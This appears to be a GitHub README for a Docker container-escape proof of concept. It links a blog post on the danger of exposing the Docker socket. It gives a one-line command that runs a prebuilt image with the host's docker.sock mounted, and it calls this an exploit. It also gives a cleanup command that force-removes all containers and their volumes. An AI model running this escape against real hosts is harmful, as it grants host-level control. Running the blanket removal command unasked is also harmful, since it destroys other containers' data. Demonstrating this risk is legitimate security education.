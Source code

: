 # docker-implant-sock-breakout
demo - https://www.lvh.io/posts/dont-expose-the-docker-socket-not-even-to-a-container.html

## Run PoC
`docker run --name docker-sock-breakout-implant --rm -v /var/run/docker.sock:/var/run/docker.sock enkaskal/docker-sock-breakout-implant`

## Clean-up PoC

Unfortunately, this exploit leaves the docker container exited on the host, and therefore you will need to clean them up.

For example:

```
# docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                      PORTS               NAMES
d5f0df4162d7        debian:latest       "/bin/bash -c 'chroo…"   11 seconds ago      Exited (0) 10 seconds ago                       jolly_allen
```

If you don't have any other containers you want to keep, the easiest way to clean-up is to execute:

```
docker rm -fv `docker ps -aq`
```
